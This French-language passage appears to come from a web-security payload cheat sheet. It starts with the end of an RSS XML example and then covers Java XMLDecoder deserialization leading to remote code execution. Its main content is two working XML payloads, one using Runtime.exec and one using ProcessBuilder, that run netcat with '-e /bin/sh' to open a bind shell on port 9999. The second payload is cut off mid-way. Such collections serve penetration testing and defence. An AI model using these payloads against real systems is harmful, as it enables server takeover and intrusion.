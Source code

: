 ```xml
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```
## Java XMLDecoder XEE à RCE

XMLDecoder est une classe Java qui crée des objets basés sur un message XML. Si un utilisateur malveillant parvient à amener une application à utiliser des données arbitraires dans un appel à la méthode **readObject**, il obtiendra instantanément l'exécution de code sur le serveur.

### Utilisation de Runtime().exec()
```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
<object class="java.lang.Runtime" method="getRuntime">
<void method="exec">
<array class="java.lang.String" length="6">
<void index="0">
<string>/usr/bin/nc</string>
</void>
<void index="1">
<string>-l</string>
</void>
<void index="2">
<string>-p</string>
</void>
<void index="3">
<string>9999</string>
</void>
<void index="4">
<string>-e</string>
</void>
<void index="5">
<string>/bin/sh</string>
</void>
</array>
</void>
</object>
</java>
```
### ProcessBuilder
```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="6">
<void index="0">
<string>/usr/bin/nc</string>
</void>
<void index="1">
<string>-l</string>
</void>
<void index="2">
<string>-p</string>
</void>
<void index="3">
<string>9999</string>
</void>
<void index="4">
<string>-e</string>
```